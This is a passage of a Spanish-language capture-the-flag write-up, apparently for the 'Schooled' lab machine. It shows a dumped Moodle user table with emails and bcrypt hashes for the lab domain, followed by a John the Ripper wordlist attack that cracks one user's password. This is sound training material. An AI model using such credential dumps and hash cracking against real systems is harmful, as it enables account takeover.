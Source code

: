 ```bash
| walls_shaun89     | walls_shaun89@student.schooled.htb     | $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga |
| smith_john89      | smith_john89@student.schooled.htb      | $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em |
| white_jack89      | white_jack89@student.schooled.htb      | $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK |
| travis_carl89     | travis_carl89@student.schooled.htb     | $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S |
| mac_amy89         | mac_amy89@student.schooled.htb         | $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i |
| james_boris89     | james_boris89@student.schooled.htb     | $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq |
| pierce_allan      | pierce_allan89@student.schooled.htb    | $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy |
| henry_william89   | henry_william89@student.schooled.htb   | $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu |
| harper_zoe89      | harper_zoe89@student.schooled.htb      | $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy |
| wright_travis89   | wright_travis89@student.schooled.htb   | $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm |
| allen_matthew89   | allen_matthew89@student.schooled.htb   | $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq |
| sanders_wallis89  | sanders_wallis89@student.schooled.htb  | $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u |
| higgins_jane      | higgins_jane@staff.schooled.htb        | $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2 |
| phillips_manuel   | phillips_manuel@staff.schooled.htb     | $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG |
| carter_lianne     | carter_lianne@staff.schooled.htb       | $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe |
| parker_dan89      | parker_dan89@student.schooled.htb      | $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi |
| parker_tim89      | parker_tim89@student.schooled.htb      | $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S |
| miguelito7x       | miguel@student.schooled.htb            | $2y$10$ZOlwQZ5odMhZgpHTOvoFveTAFJrw3bum5l321wLE32K7QNqxEyFR6 |
+-------------------+----------------------------------------+--------------------------------------------------------------+
28 rows in set (0.00 sec)

moodle@localhost [moodle]> 

```

- Como Jamie es una usuaria del sistema vamos a crackear su hash.

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Created directory: /home/miguelrega7/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)     
1g 0:00:04:12 DONE (2024-10-10 19:32) 0.003966g/s 55.12p/s 55.12c/s 55.12C/s 110689..superpet
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
